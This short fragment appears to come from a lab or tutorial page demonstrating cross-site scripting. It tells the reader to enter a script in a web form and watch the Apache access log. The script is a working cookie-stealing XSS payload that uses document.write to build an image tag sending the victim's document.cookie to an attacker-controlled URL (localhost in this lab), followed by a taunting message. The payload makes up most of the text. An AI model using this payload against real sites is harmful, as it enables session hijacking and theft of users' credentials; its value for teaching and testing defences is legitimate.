 ### Input the following in the form and monitor the apache log file: tail -f /var/log/apache2/access.log
<script>document.write(\"<img src=http://localhost/gotyou/\" + document.cookie + \">\")</script>I have eaten your cookie!






